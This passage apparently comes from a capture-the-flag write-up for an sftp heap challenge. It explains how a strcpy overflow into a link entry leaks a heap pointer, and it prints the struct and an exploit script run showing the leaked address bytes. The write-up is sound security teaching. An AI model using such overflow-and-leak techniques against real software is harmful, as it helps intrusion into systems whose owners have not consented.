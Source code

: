 Unfortunately - as far as I could see AT THE TIME - this bug doesn't speed things up for the CTF version. That is because 1) heap overflows into other chunks aren't useful without overlaps on this sophisticated allocator of course 2) unfortunately the remaining fields of a file/directory/link entry are initialized AFTER the `strcpy` call, which means that we lose whatever we "gain" by writing into a file's size field or data pointer field or a link's target field or a directory's child array fields.

Well - not entirely. In the case of directory and file entries, the name will be followed by a field that will not contain anything unknown but will definitely include a null byte. However, in the case of link entries, the entry structure is followed by the pointer to the new entry directly!

```c
struct link_entry {

  struct entry entry;
  struct entry* target;

};
```

This means that if we can fill up the name fully, then we can actually get the value of a link pointer leaked out! (Or at least until the first null byte in it.) As discussed before, this wouldn't help speeding up collisions, but it would make it possible to get the exact state of the `rand()` and therefore precisely predict which allocation falls to which address. From there we could have then written an exploit that never fails.

Here's an example run showing that we get something useful for a link name overwrite, but not for file overwrites. Notice how the leaked byte for the name is just the size of the data provided but for the link it is (part of an) actual address:

```
kutyacica@ubuntu:~/Desktop/GCTF18$ python expl.py 
[+] Starting local process './sftp_orig': pid 27567
The authenticity of host 'sftp.google.ctf (3.13.3.7)' can't be established.
(...)
sftp> 
[*] Switching to interactive mode
$ put a
$ 1
$ 
sftp> $ help
Available commands:
(...)
symlink oldpath newpath            Symlink remote file
sftp> $ symlink a foooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo
sftp> $ ls
flag
src
a
fooooooooooooooooooo\x8c\x8e-Z
sftp> $ put ccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccc
$ 4
$ aaaa
sftp> Invalid command.
sftp> $ ls
flag
src
a
fooooooooooooooooooo\x8c\x8e-Z
cccccccccccccccccccc\x04
sftp> $ put BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
$ 3
```